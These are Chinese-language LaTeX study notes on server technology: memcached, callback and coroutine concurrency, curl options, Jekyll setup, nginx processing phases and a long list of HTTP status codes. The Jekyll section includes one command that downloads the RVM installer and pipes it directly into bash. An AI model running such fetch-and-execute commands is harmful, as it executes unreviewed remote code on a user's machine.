/dev/watchdog 是一个主设备号为10, 从设备号130的字符设备节点。 Linux内核不仅为各种不同类型的watchdog硬件电路提供了驱动,还提供了一个基于定时器的纯软件watchdog驱动。 驱动源码位于内核源码树drivers/char/watchdog/目录下。


\subsection{Memcached}

memcached是一套分布式的高速缓存系统,由LiveJournal的Brad Fitzpatrick开发,但目前被许多网站使用。这是一套开放源代码软件,以BSD license授权发布。

memcached缺乏认证以及安全管制,这代表应该将memcached服务器放置在防火墙后。

memcached的API使用三十二比特的循环冗余校验(CRC-32)计算键值后,将数据分散在不同的机器上。当表格满了以后,接下来新增的数据会以LRU机制替换掉。由于memcached通常只是当作高速缓存系统使用,所以使用memcached的应用程序在写回较慢的系统时(像是后端的数据库)需要额外的代码更新memcached内的数据。


\clearpage
%!Mode:: "TeX:UTF-8"
\section{并发架构}
我们在设计一个服务器的软件架构的时候,通常会考虑几种架构:
多进程(隔离性,在linux下面的服务程序广泛采用,比如大名鼎鼎的apache)、
多线程(这种模型在windows下面比较常见)、
非阻塞/异步IO(callback) 以及Coroutine模型。

网络服务在处理数以万计的客户端连接时,往往出现效率低下甚至完全瘫痪,这被称为C10K问题。

多进程和多线程都有资源耗费比较大的问题,所以在高并发量的服务器端使用并不多。
这里我们重点来研究一下两种架构,基于callback和coroutine的架构。




\subsection{Callback- 非阻塞/异步IO}
这种架构的特点是使用非阻塞的IO,这样服务器就可以持续运转,而不需要等待,可以使用很少的线程,即使只有一个也可以。需要定期的任务可以采取定时器来触发。把这种架构发挥到极致的就是node.js,一个用javascript来写服务器端程序的框架。在node.js中,所有的io都是non-block的,可以设置回调。

这种架构的缺点是编程复杂,把以前连续的流程切成了很多片段。另外也不能充分发挥多核的能力。
\subsection{Coroutine-协程}
coroutine本质上是一种轻量级的thread,它的开销会比使用thread少很多。多个coroutine可以按照次序在一个thread里面执行,一个coroutine如果处于block状态,可以交出执行权,让其他的coroutine继续执行。使用coroutine可以以清晰的编程模型实现状态机。

协程和一般多线程的区别是,一般多线程由系统决定该哪个线程执行,是抢占式的,而协程是由每个线程自己决定自己什么时候不执行,并把执行权主动交给下一个线程。 协程是用户空间线程,操作系统其存在一无所知,所以需要用户自己去做调度,用来执行协作式多任务非常合适。

线程和协同程序的主要不同在于:在多处理器情况下,多线程程序同时运行多个线程;而协同程序是通过协作来完成,在任一指定时刻只有一个协同程序在运行,并且这个正在运行的协同程序只在必要时才会被挂起。这样Lua的协程就不能利用现在多核技术了。

Lua 协程有三个状态:suspended,running,dead。可以通过coroutine.status来查看协程状态。


让我们看看Lua语言的coroutine的例子。
\begin{verbatim}
> function foo()
 >>   print("foo", 1)
 >>   coroutine.yield()
 >>   print("foo", 2)
 >> end
> co = coroutine.create(foo) -- create a coroutine with foo as the entry
> = coroutine.status(co)
 suspended
 > = coroutine.resume(co) <--第一次resume
 foo     1
 > = coroutine.resume(co) <--第二次resume
 foo     2
 > = coroutine.status(co)
 dead
\end{verbatim}
Google go语言也对coroutine使用了语言级别的支持,使用关键字go来启动一个coroutine(从这个关键字可以看出Go语言对coroutine的重视),结合chan(类似于message queue的概念)来实现coroutine的通讯,实现了Go的理念 ”Do not communicate by sharing memory; instead, share memory by communicating.”。一个例子:
\begin{verbatim}
func ComputeAValue(c chan float64) {
     // Do the computation.
     x := 2.3423 / 534.23423;
     c <- x;
 }
func UseAGoroutine() {
    channel := make(chan float64);
    go ComputeAValue(channel);
    // do something else for a while
    value := <- channel;
    fmt.Printf("Result was: %v", value);
 }
\end{verbatim}


在业务流程实现上,coroutine确实是更理想的实现,基于callback的风格,代码确实不是那么清晰。
但是现实世界中,coroutine到目前为止并没有真正流行起来,第一,是因为支持的语言并不是很多,比较新的语言(python/lua/go/erlang)才支持,但是老一些的语言(java/c/c++)并没有语言级别的支持。第二个原因是因为coroutine的使用可能让一些糟糕的代码占用过多的内存,而且比较难于排查。另外在实现一个工作流的构架中,流的暂停和恢复的时机都是未知的,系统的状态并不能放在内存中存放,都必须序列化,所以coroutine本身要提供序列化的机制,才可以实现稳定的系统。我想这些就是coroutine叫好不叫座的原因。

\subsection{Windows IOCP}
IOCP全称I/O Completion Port,中文译为I/O完成端口。IOCP是一个异步I/O的API,它可以高效地将I/O事件通知给应用程序。与使用select()或是其它异步方法不同的是,一个套接字[socket]与一个完成端口关联了起来,然后就可继续进行正常的Winsock操作了。然而,当一个事件发生的时候,此完成端口就将被操作系统加入一个队列中。然后应用程序可以对核心层进行查询以得到此完成端口。

\subsection{事件驱动的缺点}
不管是Nginx还是Squid这种反向代理,其网络模式都是事件驱动。事件驱动其实是很老的技术,早期的select、poll都是如此。后来基于内核通知的更高级事件机制出现,如libevent里的epoll,使事件驱动性能得以提高。事件驱动的本质还是IO事件,应用程序在多个IO句柄间快速切换,实现所谓的异步IO。事件驱动服务器,最适合做的就是这种IO密集型工作,如反向代理,它在客户端与WEB服务器之间起一个数据中转作用,纯粹是IO操作,自身并不涉及到复杂计算。

Apache或者Resin这类应用服务器,之所以称他们为应用服务器,是因为他们真的要跑具体的业务应用,如科学计算、图形图像、数据库读写等。它们很可能是CPU密集型的服务,事件驱动并不合适。例如一个计算耗时2秒,那么这2秒就是完全阻塞的,什么event都没用。想想MySQL如果改成事件驱动会怎么样,一个大型的join或sort就会阻塞住所有客户端。这个时候多进程或线程就体现出优势,每个进程各干各的事,互不阻塞和干扰。当然,现代CPU越来越快,单个计算阻塞的时间可能很小,但只要有阻塞,事件编程就毫无优势。所以进程、线程这类技术,并不会消失,而是与事件机制相辅相成,长期存在。

\subsection{多核系统}

Squid-3.3使用wokers 支持基本的多核,管理员可以通过配置启动一个squid来派生多个worker进程利用所有可利用的CPU。
Nginx也采用类似机制,通过多个worker进程绑定到CPU上。
























%!Mode:: "TeX:UTF-8"

\section{爬}




\hypersetup{colorlinks=true}
\href{http://www.crummy.com/software/BeautifulSoup/bs4/doc/}{beautifulsoup4官方文档}




























%!Mode:: "TeX:UTF-8"
\section{Curl工具}
 \begin{verbatim}
curl -svo /dev/null test/abc -x 127.0.0.1:2432

curl -X PUT \
     -H 'Content-Type: application/json' \
          -d '{"firstName":"Kris", "lastName":"Jordan"}'
               echo.httpkit.com

curl -X PUT \
     -H 'Content-Type: application/json' \
     -d @example.json
     echo.httpkit.com

curl -d "firstName=Kris" \
     -d "lastName=Jordan" \
     echo.httpkit.com

curl -F "firstName=Kris" \
     -F "publicKey=@idrsa.pub;type=text/plain" \
     echo.httpkit.com

 \end{verbatim}


-x 指定服务端地址

-H 指定头部值

-X 指定方法名

-A 指定User-Agent值

-o 指定本地保存文件名称

-O 使用同服务端相同的文件名称来保存

-d 指定请求body,以application/x-www-form-urlencoded类型发送,可用于发送JSON等消息体。使用@指定文件作为body

-F 指定HTML表格请求body,以multipart/form-data类型发送




%!Mode:: "TeX:UTF-8"
\section{GitHub Pages服务}

\begin{verbatim}
git push origin gitcafe-pages #GitCafe
git push origin master #GitHub
https://help.github.com/articles/using-jekyll-with-pages/
\end{verbatim}


安装jekyll的问题包括,官方源访问不稳定,mac自带的ruby太老。系统里有了两个版本的ruby后,各种不爽。


阮一峰关于Jekyll的简单介绍:
\url{http://www.ruanyifeng.com/blog/2012/08/blogging_with_jekyll.html}

安装rvm
\begin{verbatim}
curl -L get.rvm.io | bash -s stable
\end{verbatim}

其实,用jekyll只需一条命令就可以建站
\begin{verbatim}
jekyll new my-awesome-site
\end{verbatim}

Ruby Gem安装过程中会遇到问题,解决的诀窍,一是删除Gem.lock,二是bundle update,bundle install,三是更换到国内的淘宝源。

bundle clean --force


\url{http://taohui.org.cn/mywebbuild.html}


怎么解决云主机只有内网IP的问题?
将内网云主机的默认网关改到某台有外网的主机上。
%!Mode:: "TeX:UTF-8"
\section{Nginx}
Nginx(发音同engine x)是一款由俄罗斯程序员Igor Sysoev所开发轻量级的网页服务器、反向代理服务器以及电子邮件(IMAP/POP3)代理服务器。起初是供俄国大型的门户网站及搜索引擎Rambler使用。此软件BSD-like协议下发行,可以在UNIX、GNU/Linux、BSD、Mac OS X、Solaris,以及Microsoft Windows等操作系统中运行。

Nginx是一款面向性能设计的HTTP服务器,相较于Apache、lighttpd具有占有内存少,稳定性高等优势。与旧版本(<=2.2)的Apache不同,nginx不采用每客户机一线程的设计模型,而是充分使用异步逻辑,削减了上下文调度开销,所以并发服务能力更强。整体采用模块化设计,有丰富的模块库和第三方模块库,配置灵活。 在Linux操作系统下,nginx使用epoll事件模型,得益于此,nginx在Linux操作系统下效率相当高。同时Nginx在OpenBSD或FreeBSD操作系统上采用类似于epoll的高效事件模型kqueue。

\subsection{阶段}
Nginx将HTTP处理分为11个阶段(Phase):
\begin{description}
\item[PostRead]接收完请求头之后的第一个阶段,它位于uri重写之前,实际上很少有模块会注册在该阶段,默认的情况下,该阶段被跳过
\item[ServerRewrite]server级别的uri重写阶段,也就是该阶段执行处于server块内,location块外的重写指令
\item[FingConfig]重写URL后找到匹配的location块,其原理是从location组成的静态二叉树中快速检索。处理方法由官方提供不可更改。
\item[Rewrite]location级别的uri重写阶段,该阶段执行location基本的重写指令,也可能会被执行多次。同ServerRewrite完全相同,其checker函数也是\verb$ngx_http_core_rewrite_phase$。
\item[PostRewrite]location级别重写的后一阶段,用来检查上阶段是否有uri重写,并根据结果跳转到合适的阶段,并限制重写URL次数,防止死循环。处理方法由官方提供不可更改。
\item[PreAccess]访问权限控制的前一阶段,该阶段在权限控制阶段之前,一般也用于访问控制,比如限制访问频率,链接数等
\item[Access]访问权限控制阶段,比如基于ip黑白名单的权限控制,基于用户名密码的权限控制等
\item[PostAccess]访问权限控制的后一阶段,该阶段根据权限控制阶段的执行结果进行相应处理
\item[TryFiles]\verb$try_files$指令的处理阶段,如果没有配置\verb$try_files$指令,则该阶段被跳过。\verb$try_files$作用类似于rewrite,用于配置所请求内容的路径选择规则
\item[Content]内容生成阶段,该阶段产生响应,并发送到客户端
\item[Log]日志记录阶段,该阶段记录访问日志
\end{description}

在\verb$ngx_lua$中,有init, rewrite, access, set, content, log等阶段。

一般而言handler返回:
\begin{description}
\item [NGX\_OK]表示该阶段已经处理完成,需要转入下一个阶段
\item [NG\_DECLINED]表示需要转入本阶段的下一个handler继续处理
\item [NGX\_AGAIN, NGX\_DONE]表示需要等待某个事件发生才能继续处理(比如等待网络IO),此时Nginx为了不阻塞其他请求的处理,必须中断当前请求的执行链,等待事件发生之后继续执行该handler
\item [NGX\_ERROR]表示发生了错误,需要结束该请求
\end{description}



%!Mode:: "TeX:UTF-8"
\section{HTTP Range}
Range头域可以请求实体的一个或者多个子范围。例如,  
  表示头500个字节:bytes=0-499  
  表示第二个500字节:bytes=500-999  
  表示最后500个字节:bytes=-500  
  表示500字节以后的范围:bytes=500-  
  第一个和最后一个字节:bytes=0-0,-1  
  同时指定几个范围:bytes=500-600,601-999 

\section{HTTP状态码}

\subsection{1xx消息}
这一类型的状态码,代表请求已被接受,需要继续处理。这类响应是临时响应,只包含状态行和某些可选的响应头信息,并以空行结束。由于HTTP/1.0协议中没有定义任何1xx状态码,所以除非在某些试验条件下,服务器禁止向此类客户端发送1xx响应。 这些状态码代表的响应都是信息性的,标示客户应该采取的其他行动。

100 Continue
客户端应当继续发送请求。这个临时响应是用来通知客户端它的部分请求已经被服务器接收,且仍未被拒绝。客户端应当继续发送请求的剩余部分,或者如果请求已经完成,忽略这个响应。服务器必须在请求完成后向客户端发送一个最终响应。

101 Switching Protocols
服务器已经理解了客户端的请求,并将通过Upgrade消息头通知客户端采用不同的协议来完成这个请求。在发送完这个响应最后的空行后,服务器将会切换到在Upgrade消息头中定义的那些协议。
只有在切换新的协议更有好处的时候才应该采取类似措施。例如,切换到新的HTTP版本比旧版本更有优势,或者切换到一个实时且同步的协议以传送利用此类特性的资源。

102 Processing
由WebDAV(RFC 2518)扩展的状态码,代表处理将被继续执行。

\subsection{2xx成功}

这一类型的状态码,代表请求已成功被服务器接收、理解、并接受。

200 OK
请求已成功,请求所希望的响应头或数据体将随此响应返回。

201 Created
请求已经被实现,而且有一个新的资源已经依据请求的需要而创建,且其URI已经随Location头信息返回。假如需要的资源无法及时创建的话,应当返回'202 Accepted'。

202 Accepted
服务器已接受请求,但尚未处理。正如它可能被拒绝一样,最终该请求可能会也可能不会被执行。在异步操作的场合下,没有比发送这个状态码更方便的做法了。
返回202状态码的响应的目的是允许服务器接受其他过程的请求(例如某个每天只执行一次的基于批处理的操作),而不必让客户端一直保持与服务器的连接直到批处理操作全部完成。在接受请求处理并返回202状态码的响应应当在返回的实体中包含一些指示处理当前状态的信息,以及指向处理状态监视器或状态预测的指针,以便用户能够估计操作是否已经完成。

203 Non-Authoritative Information
服务器已成功处理了请求,但返回的实体头部元信息不是在原始服务器上有效的确定集合,而是来自本地或者第三方的拷贝。当前的信息可能是原始版本的子集或者超集。例如,包含资源的元数据可能导致原始服务器知道元信息的超集。使用此状态码不是必须的,而且只有在响应不使用此状态码便会返回200 OK的情况下才是合适的。

204 No Content
服务器成功处理了请求,但不需要返回任何实体内容,并且希望返回更新了的元信息。响应可能通过实体头部的形式,返回新的或更新后的元信息。如果存在这些头部信息,则应当与所请求的变量相呼应。
如果客户端是浏览器的话,那么用户浏览器应保留发送了该请求的页面,而不产生任何文档视图上的变化,即使按照规范新的或更新后的元信息应当被应用到用户浏览器活动视图中的文档。
由于204响应被禁止包含任何消息体,因此它始终以消息头后的第一个空行结尾。

205 Reset Content
服务器成功处理了请求,且没有返回任何内容。但是与204响应不同,返回此状态码的响应要求请求者重置文档视图。该响应主要是被用于接受用户输入后,立即重置表单,以便用户能够轻松地开始另一次输入。
与204响应一样,该响应也被禁止包含任何消息体,且以消息头后的第一个空行结束。

206 Partial Content
服务器已经成功处理了部分GET请求。类似于FlashGet或者迅雷这类的HTTP 下载工具都是使用此类响应实现断点续传或者将一个大文档分解为多个下载段同时下载。
该请求必须包含Range头信息来指示客户端希望得到的内容范围,并且可能包含If-Range来作为请求条件。
响应必须包含如下的头部域:

\begin{itemize}
\item Content-Range用以指示本次响应中返回的内容的范围;如果是Content-Type为multipart/byteranges的多段下载,则每一multipart段中都应包含Content-Range域用以指示本段的内容范围。假如响应中包含Content-Length,那么它的数值必须匹配它返回的内容范围的真实字节数。
\item Date
\item ETag和/或Content-Location,假如同样的请求本应该返回200响应。
\item Expires, Cache-Control,和/或Vary,假如其值可能与之前相同变量的其他响应对应的值不同的话。
\end{itemize}


假如本响应请求使用了If-Range强缓存验证,那么本次响应不应该包含其他实体头;假如本响应的请求使用了If-Range弱缓存验证,那么本次响应禁止包含其他实体头;这避免了缓存的实体内容和更新了的实体头信息之间的不一致。否则,本响应就应当包含所有本应该返回200响应中应当返回的所有实体头部域。
假如ETag或Last-Modified头部不能精确匹配的话,则客户端缓存应禁止将206响应返回的内容与之前任何缓存过的内容组合在一起。
任何不支持Range以及Content-Range头的缓存都禁止缓存206响应返回的内容。

207 Multi-Status
由WebDAV(RFC 2518)扩展的状态码,代表之后的消息体将是一个XML消息,并且可能依照之前子请求数量的不同,包含一系列独立的响应代码。

\subsection{3xx重定向}
这类状态码代表需要客户端采取进一步的操作才能完成请求。通常,这些状态码用来重定向,后续的请求地址(重定向目标)在本次响应的Location域中指明。

当且仅当后续的请求所使用的方法是GET或者HEAD时,用户浏览器才可以在没有用户介入的情况下自动提交所需要的后续请求。客户端应当自动监测无限循环重定向(例如:A→B→C→……→A或A→A),因为这会导致服务器和客户端大量不必要的资源消耗。按照HTTP/1.0版规范的建议,浏览器不应自动访问超过5次的重定向。

300 Multiple Choices
被请求的资源有一系列可供选择的回馈信息,每个都有自己特定的地址和浏览器驱动的商议信息。用户或浏览器能够自行选择一个首选的地址进行重定向。
除非这是一个HEAD请求,否则该响应应当包括一个资源特性及地址的列表的实体,以便用户或浏览器从中选择最合适的重定向地址。这个实体的格式由Content-Type定义的格式所决定。浏览器可能根据响应的格式以及浏览器自身能力,自动作出最合适的选择。当然,RFC 2616规范并没有规定这样的自动选择该如何进行。
如果服务器本身已经有了首选的回馈选择,那么在Location中应当指明这个回馈的URI;浏览器可能会将这个Location值作为自动重定向的地址。此外,除非额外指定,否则这个响应也是可缓存的。

301 Moved Permanently
被请求的资源已永久移动到新位置,并且将来任何对此资源的引用都应该使用本响应返回的若干个URI之一。如果可能,拥有链接编辑功能的客户端应当自动把请求的地址修改为从服务器反馈回来的地址。除非额外指定,否则这个响应也是可缓存的。
新的永久性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
如果这不是一个GET或者HEAD请求,因此浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。
注意:对于某些使用HTTP/1.0协议的浏览器,当它们发送的POST请求得到了一个301响应的话,接下来的重定向请求将会变成GET方式。

302 Found
请求的资源现在临时从不同的URI响应请求。由于这样的重定向是临时的,客户端应当继续向原有地址发送以后的请求。只有在Cache-Control或Expires中进行了指定的情况下,这个响应才是可缓存的。
新的临时性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
如果这不是一个GET或者HEAD请求,那么浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。
注意:虽然RFC 1945和RFC 2068规范不允许客户端在重定向时改变请求的方法,但是很多现存的浏览器将302响应视作为303响应,并且使用GET方式访问在Location中规定的URI,而无视原先请求的方法。状态码303和307被添加了进来,用以明确服务器期待客户端进行何种反应。

303 See Other
对应当前请求的响应可以在另一个URI上被找到,而且客户端应当采用GET的方式访问那个资源。这个方法的存在主要是为了允许由脚本激活的POST请求输出重定向到一个新的资源。这个新的URI不是原始资源的替代引用。同时,303响应禁止被缓存。当然,第二个请求(重定向)可能被缓存。
新的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
注意:许多HTTP/1.1版以前的浏览器不能正确理解303状态。如果需要考虑与这些浏览器之间的互动,302状态码应该可以胜任,因为大多数的浏览器处理302响应时的方式恰恰就是上述规范要求客户端处理303响应时应当做的。

304 Not Modified
如果客户端发送了一个带条件的GET请求且该请求已被允许,而文档的内容(自上次访问以来或者根据请求的条件)并没有改变,则服务器应当返回这个状态码。304响应禁止包含消息体,因此始终以消息头后的第一个空行结尾。
该响应必须包含以下的头信息:
Date,除非这个服务器没有时钟。假如没有时钟的服务器也遵守这些规则,那么代理服务器以及客户端可以自行将Date字段添加到接收到的响应头中去(正如RFC 2068中规定的一样),缓存机制将会正常工作。
ETag和/或Content-Location,假如同样的请求本应返回200响应。
Expires, Cache-Control,和/或Vary,假如其值可能与之前相同变量的其他响应对应的值不同的话。
假如本响应请求使用了强缓存验证,那么本次响应不应该包含其他实体头;否则(例如,某个带条件的GET请求使用了弱缓存验证),本次响应禁止包含其他实体头;这避免了缓存了的实体内容和更新了的实体头信息之间的不一致。
假如某个304响应指明了当前某个实体没有缓存,那么缓存系统必须忽视这个响应,并且重复发送不包含限制条件的请求。
假如接收到一个要求更新某个缓存条目的304响应,那么缓存系统必须更新整个条目以反映所有在响应中被更新的字段的值。

305 Use Proxy
被请求的资源必须通过指定的代理才能被访问。Location域中将给出指定的代理所在的URI信息,接收者需要重复发送一个单独的请求,通过这个代理才能访问相应资源。只有原始服务器才能创建305响应。
注意:RFC 2068中没有明确305响应是为了重定向一个单独的请求,而且只能被原始服务器创建。忽视这些限制可能导致严重的安全后果。

306 Switch Proxy
在最新版的规范中,306状态码已经不再被使用。

307 Temporary Redirect
请求的资源现在临时从不同的URI响应请求。由于这样的重定向是临时的,客户端应当继续向原有地址发送以后的请求。只有在Cache-Control或Expires中进行了指定的情况下,这个响应才是可缓存的。
新的临时性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。因为部分浏览器不能识别307响应,因此需要添加上述必要信息以便用户能够理解并向新的URI发出访问请求。
如果这不是一个GET或者HEAD请求,那么浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。

\subsection{4xx客户端错误}

这类的状态码代表了客户端看起来可能发生了错误,妨碍了服务器的处理。除非响应的是一个HEAD请求,否则服务器就应该返回一个解释当前错误状况的实体,以及这是临时的还是永久性的状况。这些状态码适用于任何请求方法。浏览器应当向用户显示任何包含在此类错误响应中的实体内容。

如果错误发生时客户端正在传送数据,那么使用TCP的服务器实现应当仔细确保在关闭客户端与服务器之间的连接之前,客户端已经收到了包含错误信息的数据包。如果客户端在收到错误信息后继续向服务器发送数据,服务器的TCP栈将向客户端发送一个重置数据包,以清除该客户端所有还未识别的输入缓冲,以免这些数据被服务器上的应用程序读取并干扰后者。

400 Bad Request
由于包含语法错误,当前请求无法被服务器理解。除非进行修改,否则客户端不应该重复提交这个请求。

401 Unauthorized
当前请求需要用户验证。该响应必须包含一个适用于被请求资源的WWW-Authenticate信息头用以询问用户信息。客户端可以重复提交一个包含恰当的Authorization头信息的请求。如果当前请求已经包含了Authorization证书,那么401响应代表着服务器验证已经拒绝了那些证书。如果401响应包含了与前一个响应相同的身份验证询问,且浏览器已经至少尝试了一次验证,那么浏览器应当向用户展示响应中包含的实体信息,因为这个实体信息中可能包含了相关诊断信息。参见RFC 2617。

402 Payment Required
该状态码是为了将来可能的需求而预留的。

403 Forbidden
服务器已经理解请求,但是拒绝执行它。与401响应不同的是,身份验证并不能提供任何帮助,而且这个请求也不应该被重复提交。如果这不是一个HEAD请求,而且服务器希望能够讲清楚为何请求不能被执行,那么就应该在实体内描述拒绝的原因。当然服务器也可以返回一个404响应,假如它不希望让客户端获得任何信息。

404 Not Found
请求失败,请求所希望得到的资源未被在服务器上发现。没有信息能够告诉用户这个状况到底是暂时的还是永久的。假如服务器知道情况的话,应当使用410状态码来告知旧资源因为某些内部的配置机制问题,已经永久的不可用,而且没有任何可以跳转的地址。404这个状态码被广泛应用于当服务器不想揭示到底为何请求被拒绝或者没有其他适合的响应可用的情况下。

405 Method Not Allowed
请求行中指定的请求方法不能被用于请求相应的资源。该响应必须返回一个Allow头信息用以表示出当前资源能够接受的请求方法的列表。
鉴于PUT,DELETE方法会对服务器上的资源进行写操作,因而绝大部分的网页服务器都不支持或者在默认配置下不允许上述请求方法,对于此类请求均会返回405错误。

406 Not Acceptable
请求的资源的内容特性无法满足请求头中的条件,因而无法生成响应实体。
除非这是一个HEAD请求,否则该响应就应当返回一个包含可以让用户或者浏览器从中选择最合适的实体特性以及地址列表的实体。实体的格式由Content-Type头中定义的媒体类型决定。浏览器可以根据格式及自身能力自行作出最佳选择。但是,规范中并没有定义任何作出此类自动选择的标准。

407 Proxy Authentication Required
与401响应类似,只不过客户端必须在代理服务器上进行身份验证。代理服务器必须返回一个Proxy-Authenticate用以进行身份询问。客户端可以返回一个Proxy-Authorization信息头用以验证。参见RFC 2617。

408 Request Timeout
请求超时。客户端没有在服务器预备等待的时间内完成一个请求的发送。客户端可以随时再次提交这一请求而无需进行任何更改。

409 Conflict
由于和被请求的资源的当前状态之间存在冲突,请求无法完成。这个代码只允许用在这样的情况下才能被使用:用户被认为能够解决冲突,并且会重新提交新的请求。该响应应当包含足够的信息以便用户发现冲突的源头。
冲突通常发生于对PUT请求的处理中。例如,在采用版本检查的环境下,某次PUT提交的对特定资源的修改请求所附带的版本信息与之前的某个(第三方)请求向冲突,那么此时服务器就应该返回一个409错误,告知用户请求无法完成。此时,响应实体中很可能会包含两个冲突版本之间的差异比较,以便用户重新提交归并以后的新版本。

410 Gone
被请求的资源在服务器上已经不再可用,而且没有任何已知的转发地址。这样的状况应当被认为是永久性的。如果可能,拥有链接编辑功能的客户端应当在获得用户许可后删除所有指向这个地址的引用。如果服务器不知道或者无法确定这个状况是否是永久的,那么就应该使用404状态码。除非额外说明,否则这个响应是可缓存的。
410响应的目的主要是帮助网站管理员维护网站,通知用户该资源已经不再可用,并且服务器拥有者希望所有指向这个资源的远端连接也被删除。这类事件在限时、增值服务中很普遍。同样,410响应也被用于通知客户端在当前服务器站点上,原本属于某个个人的资源已经不再可用。当然,是否需要把所有永久不可用的资源标记为'410 Gone',以及是否需要保持此标记多长时间,完全取决于服务器拥有者。

411 Length Required
服务器拒绝在没有定义Content-Length头的情况下接受请求。在添加了表明请求消息体长度的有效Content-Length头之后,客户端可以再次提交该请求。

412 Precondition Failed
服务器在验证在请求的头字段中给出先决条件时,没能满足其中的一个或多个。这个状态码允许客户端在获取资源时在请求的元信息(请求头字段数据)中设置先决条件,以此避免该请求方法被应用到其希望的内容以外的资源上。

413 Request Entity Too Large
服务器拒绝处理当前请求,因为该请求提交的实体数据大小超过了服务器愿意或者能够处理的范围。此种情况下,服务器可以关闭连接以免客户端继续发送此请求。
如果这个状况是临时的,服务器应当返回一个Retry-After的响应头,以告知客户端可以在多少时间以后重新尝试。

414 Request-URI Too Long
请求的URI长度超过了服务器能够解释的长度,因此服务器拒绝对该请求提供服务。这比较少见,通常的情况包括:
本应使用POST方法的表单提交变成了GET方法,导致查询字符串(Query String)过长。
重定向URI“黑洞”,例如每次重定向把旧的URI作为新的URI的一部分,导致在若干次重定向后URI超长。
客户端正在尝试利用某些服务器中存在的安全漏洞攻击服务器。这类服务器使用固定长度的缓冲读取或操作请求的URI,当GET后的参数超过某个数值后,可能会产生缓冲区溢出,导致任意代码被执行。没有此类漏洞的服务器,应当返回414状态码。

415 Unsupported Media Type
对于当前请求的方法和所请求的资源,请求中提交的实体并不是服务器中所支持的格式,因此请求被拒绝。

416 Requested Range Not Satisfiable
如果请求中包含了Range请求头,并且Range中指定的任何数据范围都与当前资源的可用范围不重合,同时请求中又没有定义If-Range请求头,那么服务器就应当返回416状态码。
假如Range使用的是字节范围,那么这种情况就是指请求指定的所有数据范围的首字节位置都超过了当前资源的长度。服务器也应当在返回416状态码的同时,包含一个Content-Range实体头,用以指明当前资源的长度。这个响应也被禁止使用multipart/byteranges作为其Content-Type。

417 Expectation Failed
在请求头Expect中指定的预期内容无法被服务器满足,或者这个服务器是一个代理服务器,它有明显的证据证明在当前路由的下一个节点上,Expect的内容无法被满足。

418 I'm a teapot
本操作码是在1998年作为IETF的传统愚人节笑话, 在RFC 2324 超文本咖啡壶控制协议中定义的,并不需要在真实的HTTP服务器中定义。

421 There are too many connections from your internet address
从当前客户端所在的IP地址到服务器的连接数超过了服务器许可的最大范围。通常,这里的IP地址指的是从服务器上看到的客户端地址(比如用户的网关或者代理服务器地址)。在这种情况下,连接数的计算可能涉及到不止一个终端用户。

422 Unprocessable Entity
请求格式正确,但是由于含有语义错误,无法响应。(RFC 4918 WebDAV)

423 Locked
当前资源被锁定。(RFC 4918 WebDAV)

424 Failed Dependency
由于之前的某个请求发生的错误,导致当前请求失败,例如PROPPATCH。(RFC 4918 WebDAV)

425 Unordered Collection
在WebDav Advanced Collections草案中定义,但是未出现在《WebDAV顺序集协议》(RFC 3658)中。

426 Upgrade Required
客户端应当切换到TLS/1.0。(RFC 2817)

449 Retry With
由微软扩展,代表请求应当在执行完适当的操作后进行重试。

\subsection{5xx服务器错误}
这类状态码代表了服务器在处理请求的过程中有错误或者异常状态发生,也有可能是服务器意识到以当前的软硬件资源无法完成对请求的处理。除非这是一个HEAD请求,否则服务器应当包含一个解释当前错误状态以及这个状况是临时的还是永久的解释信息实体。浏览器应当向用户展示任何在当前响应中被包含的实体。

这些状态码适用于任何响应方法。

500 Internal Server Error
服务器遇到了一个未曾预料的状况,导致了它无法完成对请求的处理。一般来说,这个问题都会在服务器的程序码出错时出现。

501 Not Implemented
服务器不支持当前请求所需要的某个功能。当服务器无法识别请求的方法,并且无法支持其对任何资源的请求。

502 Bad Gateway
作为网关或者代理工作的服务器尝试执行请求时,从上游服务器接收到无效的响应。

503 Service Unavailable
由于临时的服务器维护或者过载,服务器当前无法处理请求。这个状况是临时的,并且将在一段时间以后恢复。如果能够预计延迟时间,那么响应中可以包含一个Retry-After头用以标明这个延迟时间。如果没有给出这个Retry-After信息,那么客户端应当以处理500响应的方式处理它。

504 Gateway Timeout
作为网关或者代理工作的服务器尝试执行请求时,未能及时从上游服务器(URI标识出的服务器,例如HTTP、FTP、LDAP)或者辅助服务器(例如DNS)收到响应。
注意:某些代理服务器在DNS查询超时时会返回400或者500错误。

505 HTTP Version Not Supported
服务器不支持,或者拒绝支持在请求中使用的HTTP版本。这暗示着服务器不能或不愿使用与客户端相同的版本。响应中应当包含一个描述了为何版本不被支持以及服务器支持哪些协议的实体。

506 Variant Also Negotiates
由《透明内容协商协议》(RFC 2295)扩展,代表服务器存在内部配置错误:被请求的协商变元资源被配置为在透明内容协商中使用自己,因此在一个协商处理中不是一个合适的重点。

507 Insufficient Storage
服务器无法存储完成请求所必须的内容。这个状况被认为是临时的。(WebDAV RFC 4918)

509 Bandwidth Limit Exceeded
服务器达到带宽限制。这不是一个官方的状态码,但是仍被广泛使用。

510 Not Extended
获取资源所需要的策略并没有被满足。(RFC 2774)

 
 
 
 
 
 

%!Mode:: "TeX:UTF-8"
\section{代理服务器}

\subsection{反向代理}
反向代理(Reverse Proxy)方式是指以代理服务器来接受internet上的连接请求,然后将请求转发给内部网络上的服务器,并将从服务器上得到的结果返回给internet上请求连接的客户端,此时代理服务器对外就表现为一个服务器。

安全反向代理有许多用途:
可以提供从防火墙外部代理服务器到防火墙内部安全内容服务器的加密连接;
可以允许客户机安全地连接到代理服务器,从而有利于安全地传输信息(如信用卡号)。


正向、反向代理区别:
\begin{description}
